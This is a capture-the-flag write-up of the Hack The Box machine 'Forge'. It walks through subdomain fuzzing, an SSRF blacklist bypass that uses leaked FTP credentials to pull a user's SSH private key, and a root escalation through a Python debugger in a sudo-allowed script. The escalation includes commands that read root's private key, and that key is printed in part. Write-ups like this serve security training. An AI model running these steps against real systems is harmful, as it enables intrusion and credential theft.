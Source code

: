 Title:HTB: Forge
Date: 01-21-2022 17:25
category:security
tags:security, boot2root, HTB, SSRF, LFI
meta:security, boot2root, HTB, SSRF, LFI

<img class="align-left" src="/media/2022.01/forge_card.png" alt="Forge Card" width="262">

This is a writeup about a retired HacktheBox machine:
[Forge](https://www.hackthebox.com/home/machines/profile/376) publish on
September 11, 2021 by
[NoobHacker9999](https://www.hackthebox.com/home/users/profile/393721).
This box is rated as a medium machine but could be qualified as an easy medium
:). It implies a SSRF and an LFI as well as some Python and a
[PDB](https://docs.python.org/3/library/pdb.html).

<!-- PELICAN_END_SUMMARY -->

# Foothold

## Recon

Let us start as always by a `nmap` scan. Only port 80 (HTTP) and 22 (SSH) are
open.

    :::text
    # Nmap 7.91 scan initiated Friday Sep 17 04:59:56 2021 as: nmap -sSV -p- -oN notes.md -A 10.129.220.75
    Nmap scan report for 10.129.220.75
    Host is up (0.013s latency).
    Not shown: 65532 closed ports
    PORT   STATE    SERVICE VERSION
    21/tcp filtered ftp
    22/tcp open     ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
    80/tcp open     http    Apache httpd 2.4.41 ((Ubuntu))

## Website

The website is a gallery that allow to upload an image either from the
filesystem or from an URL.

We use [wfuzz](https://github.com/xmendez/wfuzz) in addition to the
[subdomain secList](https://github.com/danielmiessler/SecLists/tree/master/Discovery/DNS)
to discover that the domain admin.forge.htb exist.

    ```text
    └─$ wfuzz -c -w subdomains-top1million-5000.txt --sc 200 -H "HOST:FUZZ.forge.htb" http://forge.htb
    /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
    ********************************************************
    * Wfuzz 3.1.0 - The Web Fuzzer                         *
    ********************************************************

    Target: http://forge.htb/
    Total requests: 4989

    =====================================================================
    ID           Response   Lines    Word       Chars       Payload
    =====================================================================

    000000024:   200        1 L      4 W        27 Ch       "admin - admin"
    ```

We cannot access the admin interface as some IP filtering is in place.
We try to includ the page by uploading it as an image using the URL but it
failes with an error message: "URL contains a blacklisted address!"

We try the same inclusiion by using upper case on the "FORGE" domain and got the
page http://admin.FORGE.htb

    :::html
    <title>Admin Portal</title>
    </head>
    <body>
        <link rel="stylesheet" type="text/css" href="/static/css/main.css">
        <header>
                <nav>
                    <h1 class=""><a href="/">Portal home</a></h1>
                    <h1 class="align-right margin-right"><a href="/announcements">Announcements</a></h1>
                    <h1 class="align-right"><a href="/upload">Upload image</a></h1>
                </nav>
        </header>
        <br><br><br><br>
        <br><br><br><br>
        <center><h1>Welcome Admins!</h1></center>
    </body>
    </html>

We look at the `announcements` page:

    :::html
    <li>An internal ftp server has been setup with credentials as user:heightofsecurity123!</li>
    <li>The /upload endpoint now supports ftp, ftps, http and https protocols for uploading from url.</li>
    <li>The /upload endpoint has been configured for easy scripting of uploads, and for uploading an image, one can simply pass a url with ?u=&lt;url&gt;.</li>


We try to load the FTP page using the disclosed credentials
`http://admin.FORGE.htb/upload?u=ftp://user:heightofsecurity123!@FORGE.htb/`
We got two files `user.txt` and `snap`.

We take a look at the `.ssh/id_rsa` file (worst case scenario it does not
exist) using `http://admin.FORGE.htb/upload?u=ftp://user:heightofsecurity123!@FORGE.htb/.ssh/id_rsa`
and got the RSA private key. We can now connect as `user` using SSH and grab the
user flag.

    :::text
    └─$ ssh user@forge.htb -i id_rsa
    Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 5.4.0-81-generic x86_64)
    user@forge:~$ cat user.txt
    4a8aed62cdd2fca87ce185b780ee3e89

# Root

We look at our privileges (`sudo -l`) and we see that we can run `/usr/bin/python3 /opt/remote-manage.py`
as `root` without password. Looking at the script it is a remote manager script
that will land us a [PDB](https://docs.python.org/3/library/pdb.html) if it got
a unrecognized input. So we launch the script, connect to it using another SSH
terminal and `nc`, then we just input a "q" that will not be recognize and get
a [PDB](https://docs.python.org/3/library/pdb.html) in our first shell allowing
us to load the `os` module and execute system commands as root using
`os.system([COMMAND])`.

    :::text
    user@forge:~$ sudo /usr/bin/python3 /opt/remote-manage.py
    Listening on localhost:59816
    invalid literal for int() with base 10: b'q'
    > /opt/remote-manage.py(27)<module>()
    -> option = int(clientsock.recv(1024).strip())
    (Pdb) --KeyboardInterrupt--
    (Pdb) import os
    (Pdb) os.system('id')
    uid=0(root) gid=0(root) groups=0(root)
    0

We just grab the root SSH private key and connect on the box as `root` allowing us
to get the flag.

    :::text
    (Pdb) os.system('ls /root/.ssh')
    authorized_keys  id_rsa  id_rsa.pub
    0
    (Pdb) os.system('cat /root/.ssh/id_rsa')
    -----BEGIN OPENSSH PRIVATE KEY-----
    b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
    NhAAAAAwEAAQAAAYEAusTE7uvvBLrfqDLv6I/+Xc9W/RVGA4eFPOowUNkHDZ4MTUm4cK4/
    DdTvY7o7bvSinEX26rWdG4eVY3qnBGSACl3VIGX80NsWgyZwWQT20Vj0q8gf674RB4LfB6
    i6Awm8cbm3105HxfQnqr4qr2oJEpyDVaF29zpaS+6y0Ogq7HcRkSyQyErBnGmlOYBcBvvh
    <SNIP>
    -----END OPENSSH PRIVATE KEY-----

    └─$ ssh forge.htb -l root -i id_rsa_root
    root@forge:~# id
    uid=0(root) gid=0(root) groups=0(root)
    root@forge:~# cat root.txt
    5a7c66fcccbc8a380f220f349e6eea95

# Wrapping up

This box was really easy for a medium one. The root part really easy. I
triggered it by mistake as "q" for quit is an old habit. Once you get the
subdomain the user part just requires to follow the dots. A great medium box for
beginners.

